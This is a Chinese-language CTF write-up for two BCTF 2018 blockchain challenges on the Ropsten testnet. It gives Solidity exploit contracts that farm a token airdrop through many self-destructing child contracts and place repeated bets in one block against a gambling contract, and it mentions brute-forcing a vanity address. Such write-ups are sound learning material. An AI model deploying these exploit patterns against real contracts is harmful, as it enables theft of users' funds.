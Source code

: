 # bctf 2018 blockchain

## Fake3d
题目地址：0xd229628fd201a391cf0c4ae6169133c1ed93d00a @ ropsten
薅羊毛攻击：
```js
contract father {
    function father() payable {}
    Son son;
    function attack(uint256 times) public {
        for(uint i=0;i<times;i++){
            son = new Son();
        }
    }
    function () payable {
    }
}

contract Son {

    function Son() payable {
        Fake3D f3d;
        f3d=Fake3D(0x4082cC8839242Ff5ee9c67f6D05C4e497f63361a);
        f3d.airDrop();
        if (f3d.balance(this)>=10)
        {
            f3d.transfer(0x4ecdDBF5C4aDBEE2d42bf9840183506Cf27c6D3f,10);
        }
        selfdestruct(0x4ecdDBF5C4aDBEE2d42bf9840183506Cf27c6D3f);
    }
    function () payable{
    }
}
```
攻击完成后，提取flag时发现不对劲，有问题，怀疑winnerlist合约不对，找到了该合约真正的地址，并继续逆向：
https://ethervm.io/decompile?address=0xd229628fd201a391cf0c4ae6169133c1ed93d00a&network=ropsten
简单来说，还需要满足用户的地址最后为0x43或倒数2位为0xb1. 用https://vanity-eth.tk/
爆破，得到地址，转账，获取flag。

## EOSGAME
题目地址：0x804d8B0f43C57b5Ba940c1d1132d03f1da83631F @ ropsten

赌博游戏，赌就行了，写个攻击合约在一个block里面多赌几次。20%中100倍奖励，很划算
```js
contract EOSGame_exp{
    EOSGame eosgame;
    
    constructor() public{
        eosgame=EOSGame(0x804d8B0f43C57b5Ba940c1d1132d03f1da83631F);
    }
    
    function init() public{
        eosgame.initFund();
    }
    
    function small(uint times) public{
        for(uint i = 0; i < times; i++) {
            eosgame.smallBlind();
        }
    }
    
    function big(uint times) public{
        for(uint i = 0; i < times; i++) {
            eosgame.bigBlind();
        }
    }
    
    function bof() public view returns(uint256){
        return eosgame.eosBlanceOf();
    }
    
    function flag(string b64email) public{
        eosgame.CaptureTheFlag(b64email);
    }
}
```